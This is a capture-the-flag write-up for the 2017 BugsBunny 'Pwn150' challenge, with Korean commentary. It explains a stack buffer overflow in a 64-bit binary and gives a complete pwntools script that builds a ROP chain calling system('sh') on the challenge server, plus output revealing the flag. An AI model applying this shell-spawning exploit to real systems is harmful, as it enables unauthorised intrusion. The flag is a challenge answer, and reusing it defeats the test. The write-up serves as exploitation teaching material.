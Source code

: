 # 2017 bugsbunny - [PWN] Pwn150

## Key words

- x86_64 simple stack bof
- gdb : set follow-fork-mode [child|parent]

## Check Security

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Solution

```c
signed __int64 Hello()
{
  signed __int64 result; // rax@2
  char s; // [sp+0h] [bp-50h]@1
  FILE *v2; // [sp+48h] [bp-8h]@1

  printf("Hello pwner, Send me your message here: ");
  fflush(stdout);
  fgets(&s, 0xC0, stdin);
  v2 = fopen("bugsbunny.txt", "a");
  if ( v2 )
  {
    fwrite(&s, 0x40uLL, 1uLL, v2);
    result = 0LL;
  }
  else
  {
    puts("So shorry cant talk to you now :( ");
    result = 1LL;
  }
  return result;
}
```

문제를 보면 입력 받는 스트링에서 `rbp`까지 `0x50`인데 입력을 받는게 `0xc0`를 입력 받기 때문에 `Stack BOF`가 발생합니다. 

문제에 `NX`가 켜져있기 때문에 쉘 코드를 올려 뛸수가 없기 때문에 `ROP`를 구성하여 쉘을 획득 합니다.

문제 바이너리에서 이미 `system`함수를 사용했기 때문에 이를 이용하고, 바이너리 내부에 존재하는 `sh\x00` 문자열을 함수의 첫 번째 인자인 `$rdi`에 넣고 호출 합니다.

## Exploit Code

```python
from pwn import *

server = "54.67.102.66"
port   =  5253

system_addr = 0x4005e0

p = remote(server, port)
e = ELF("./pwn150")

pr = 0x400882
sh = 0x6003ef
pop_rdi_ret = 0x400883

print p.recv()

payload = ""
payload += "A" * 0x50
payload += "B" * 8 # rbp
payload += p64(pop_rdi_ret)
payload += p64(sh)
payload += p64(e.plt["system"])

p.sendline(payload)
p.sendline("cat /home/pwn150/flag")
print p.recv()
print p.recv()
```

## Result

```
tbkim@ubuntu:~/ctf/pwnable/0014_2017_bugsbunny_pwn150$ python sol_pwn150.py 
[+] Opening connection to 54.67.102.66 on port 5253: Done
[*] '/home/tbkim/ctf/pwnable/0014_2017_bugsbunny_pwn150/pwn150'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
Wed Aug  2 08:01:55 UTC 2017

Hello pwner, Send me your message here: 
Bugs_Bunny{did_i_help_you_Solve_it!oHH_talk_to_hacker:D}

[*] Closed connection to 54.67.102.66 port 5253
```